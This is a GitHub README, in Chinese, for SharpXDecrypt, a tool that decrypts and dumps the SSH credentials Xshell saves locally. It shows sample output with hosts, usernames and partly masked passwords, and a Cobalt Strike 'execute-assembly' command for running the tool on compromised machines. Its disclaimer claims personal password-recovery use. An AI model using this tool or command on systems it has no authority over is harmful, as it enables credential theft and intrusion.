 # SharpXDecrypt

## 声明

本程序仅供个人恢复密码使用，勿作非法用途，请在下载后24小时内删除！如果代码中存在侵权行为，请联系我们删除。



## 简介

Xshell全版本凭证一键导出工具，针对Xshell全版本在本地保存的密码进行解密，包括最新的7系列版本！



## 使用方法

#### cmd.exe

```
C:\Users\asus\Desktop\DEV\SharpXDecrypt\bin\Debug> .\SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持最新Xshell 7系列版本!)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: E:\NetSarang Computer\xshell6
  UserPath: C:\Users\asus\Documents\NetSarang Computer\7
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: asus
  userSID: S-1-5-21-736521517-423******97-1340300005-1001
[*] GetUserSID Success !

  XSHPath: E:\NetSarang Computer\xshell6\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: www*******Aqx
  Version: 6.0

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: ww********Aqx
  Version: 7.1

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\Tokyo.xsh
  Host: 198.13.51.134
  UserName: root
  Password: W8*********PN__%
  Version: 7.1
```



#### Cobalt Strike

```
execute-assembly /path/to/SharpXDecrypt.exe
```



## 更新日志 

- v0.1.0, 2022-02-22, 创建
- v0.1.1, 2022-02-23, 修复中文用户名解密失败问题



## 致谢

暂无



## 参考

https://github.com/HyperSine/how-does-Xmanager-encrypt-password

https://github.com/uknowsec/SharpDecryptPwd

